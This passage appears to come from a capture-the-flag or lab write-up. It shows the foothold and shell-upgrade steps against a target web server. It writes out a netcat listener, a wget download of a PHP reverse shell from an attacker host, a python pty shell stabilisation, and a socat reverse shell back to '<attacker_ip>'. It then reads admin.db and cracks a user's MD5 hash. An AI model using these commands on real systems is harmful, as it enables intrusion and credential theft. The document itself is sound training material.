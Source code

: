 We then create a listener with netcat (`nc`) to catch the callback connection with the port above:

```console
$ nc -nvlp <port>
```

Finally, we upload the shell to the victim host via `python3` and `wget`:

Attacker machine (in directory of reverse shell):

```console
$ python3 -m http.server <port>
```

Victim machine (in `/var/www/html`):

```console
$ wget http://<attacker_ip>:<port>/shell.php
```

![[Pasted image 20230728101954.png]]

We can then access this in the browser and catch the callback connection in netcat:

![[Pasted image 20230728102152.png]]

Stabilise our shell:

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
$ export TERM=xterm
```

We can now read the contents of the `admin.db` file, however we will need to upgrade to an interactive shell. We can accomplish this via `socat`, uploading a [static binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) the same way we uploaded our reverse shell

Attacker machine:

```console
$ socat tcp-l:<port> file:`tty`,raw,echo=0
```

Target machine:

```console
$ chmod +x socat
$ socat tcp:<attacker_ip>:<port> exec:"bash -li",pty,stderr,sigint,setside,sane
```

This results in a fully-interactive shell as `www-data`:

![[Pasted image 20230728103128.png]]

We can then read the `admin.db` via `sqlite3`:

![[Pasted image 20230728103531.png]]

We then use [CrackStation](https://crackstation.net) to crack the MD5 password hash of the `curtis` user:
